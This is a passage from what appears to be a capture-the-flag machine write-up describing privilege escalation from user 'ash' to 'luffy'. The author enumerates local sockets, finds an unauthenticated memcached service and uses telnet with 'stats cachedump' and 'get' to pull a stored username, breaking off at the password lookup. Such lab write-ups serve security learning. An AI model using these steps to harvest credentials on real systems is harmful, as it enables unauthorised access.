 But this is totally optional it's possible to jump over this step and directly
elevate to user luffy from www-data.

### Privilege Escalation of Machine : ash to luffy

Let's see open TCP sockets:

```
$ ss -nlpt
State    Recv-Q    Send-Q        Local Address:Port        Peer Address:Port
LISTEN   0         128           127.0.0.53%lo:53               0.0.0.0:*
LISTEN   0         128                 0.0.0.0:22               0.0.0.0:*
LISTEN   0         80                127.0.0.1:3306             0.0.0.0:*
LISTEN   0         128               127.0.0.1:11211            0.0.0.0:*
LISTEN   0         128                    [::]:22                  [::]:*
LISTEN   0         128                    [::]:11211               [::]:*
LISTEN   0         128                       *:80                     *:*
```

Ohoh we have port 11211 used by memcached.

We can confirm the process is running:

```
$ ps -ef f | grep memcached
memcache  1125     1  0 22:39 ?        Ssl    0:00 /usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1 -P /var/run/memcached/memcached.pid
ash       6235  5474  0 23:30 pts/1    S+     0:00  |                           \_ grep --color=auto memcached
www-data  4693  4669  0 23:04 ?        Sl     0:00  |               \_ memcached
```

Let's check some advices on [HackTricks][ht]: [11211 - Pentesting Memcache](https://book.hacktricks.xyz/pentesting/11211-memcache)

```
$ telnet 127.0.0.1 11211
telnet 127.0.0.1 11211
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
version
version
VERSION 1.5.6 Ubuntu

stats items
stats items
STAT items:1:number 5
...

stats cachedump 1 0
stats cachedump 1 0
ITEM link [21 b; 0 s]
ITEM user [5 b; 0 s]
ITEM passwd [9 b; 0 s]
ITEM file [7 b; 0 s]
ITEM account [9 b; 0 s]
END

get user
get user
VALUE user 0 5
luffy
END

get passwd
get passwd
```